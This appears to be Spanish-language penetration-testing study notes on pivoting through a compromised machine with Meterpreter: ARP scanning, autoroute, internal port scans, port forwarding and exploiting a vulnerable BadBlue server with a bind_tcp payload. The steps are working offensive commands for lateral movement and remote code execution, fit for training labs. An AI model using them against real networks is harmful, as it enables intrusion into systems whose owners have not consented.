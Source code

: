 # Pivoting con Meterpreter + Descubrimiento de IPs internas

## 1. ¿Qué es pivotear?
Pivotear es utilizar una máquina comprometida como punto de salto para acceder a otras redes o máquinas que no son alcanzables directamente desde nuestro host atacante.

Se usa cuando:
- El host atacante no tiene visibilidad directa de ciertos objetivos.
- Queremos realizar **movimientos laterales** en una red interna.
- Queremos aprovechar la posición de la máquina comprometida como **puente**.

---

## 2. Flujo de trabajo con descubrimiento previo

### Paso 1: Ganar acceso y revisar la red
Desde la sesión Meterpreter:
```bash
meterpreter > sysinfo
meterpreter > ipconfig
```
- Identificamos las interfaces y redes a las que la máquina comprometida tiene acceso.

---

### Paso 2: Descubrir otras máquinas en la red con ARP Scan
Si no conocemos la IP de la segunda máquina, podemos usar:
```bash
run arp_scanner -r 10.0.28.0/24
```
- `-r`: Rango de IPs a escanear.
- Nos devolverá una lista de IPs y direcciones MAC activas en la red interna.

Con esto detectamos hosts que están encendidos y pueden ser potenciales objetivos.

---

### Paso 3: Configurar pivoting con autoroute
Seleccionamos la subred encontrada (por ejemplo, `10.0.28.0/20`) y la añadimos:
```bash
run autoroute -s 10.0.28.0/20
```
Esto enruta el tráfico hacia esa subred a través de la sesión Meterpreter.

---

### Paso 4: Mandar la sesión al background y renombrarla
```bash
background
sessions -n "victima1"
```
Esto ayuda a mantener organizado el trabajo.

---

### Paso 5: Escanear la red interna
Usamos un escáner de puertos:
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.28.130
set PORTS 1-100
exploit
```
- Así identificamos puertos abiertos en la máquina interna.

---

### Paso 6: Crear un Port Forwarding
Supongamos que encontramos un HTTP en el puerto 80:
```bash
portfwd add -l 1234 -p 80 -r 10.0.28.130
```
Esto nos permite acceder al servicio HTTP de la máquina interna desde nuestro host atacante en `localhost:1234`.

---

### Paso 7: Escaneo desde nuestro host
```bash
db_nmap -sS -sV -p 1234 localhost
```
Así identificamos el servicio y versión reales.

---

### Paso 8: Explotación de un servicio interno
Si el escaneo detecta **BadBlue vulnerable**:
```bash
use exploit/windows/http/passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.0.28.130
set LPORT 4444
exploit
```
- Se usa `bind_tcp` porque trabajamos dentro de la red interna y queremos que el objetivo abra un puerto para conectarnos.

---

## 3. Resumen del proceso
1. **Comprometer una máquina** accesible.
2. **Descubrir IPs internas** con ARP scan.
3. **Configurar rutas** con `autoroute`.
4. **Escanear puertos** en objetivos internos.
5. **Redirigir puertos** con `portfwd`.
6. **Escanear desde el atacante** con `nmap`.
7. **Explotar vulnerabilidades** en máquinas internas.

---

## 4. Comando clave para descubrimiento
```bash
run arp_scanner -r <rango_subred>
```
Este paso es crucial si no conocemos las IPs internas antes de pivotear.
